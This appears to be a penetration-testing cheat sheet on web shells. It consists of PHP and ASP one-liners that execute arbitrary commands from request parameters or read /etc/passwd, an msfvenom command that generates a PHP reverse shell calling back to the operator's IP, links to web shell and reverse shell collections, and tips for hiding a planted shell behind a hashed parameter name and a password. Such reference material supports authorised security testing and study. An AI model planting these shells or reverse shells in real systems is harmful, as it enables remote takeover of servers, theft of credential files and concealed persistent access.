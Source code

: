 # Web Shells

### PHP web Shells

| **Web Shell**                                                                           | **Description**                       |
| --------------------------------------------------------------------------------------- | ------------------------------------- |
| `<?php file_get_contents('/etc/passwd'); ?>`                                            | Basic PHP File Read                   |
| `<?php system('hostname'); ?>`                                                          | Basic PHP Command Execution           |
| `<?php system($_REQUEST['cmd']); ?>`                                                    | Basic PHP Web Shell                   |
| `<% eval request('cmd') %>`                                                             | Basic ASP Web Shell                   |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php`          | Generate PHP reverse shell            |
| [PHP Web Shell](https://github.com/Arrexel/phpbash)                                     | PHP Web Shell                         |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)                 | PHP Reverse Shell                     |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells |

### JSP Web Shell

{% embed url="https://github.com/SecurityRiskAdvisors/cmd.jsp" %}

### Essential Considerations:

1. Use an MD5 hash for the parameter name on your web shell so it cannot be guessed and hijacked by an adjacent attacker:
   1. <pre><code><strong>&#x3C;?php
      </strong>system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
      ?>
      </code></pre>
2. Use a Password protected web shell in case it is discovered.&#x20;
3. Note where all files have been dropped, and ensure they are cleaned up afterwards.
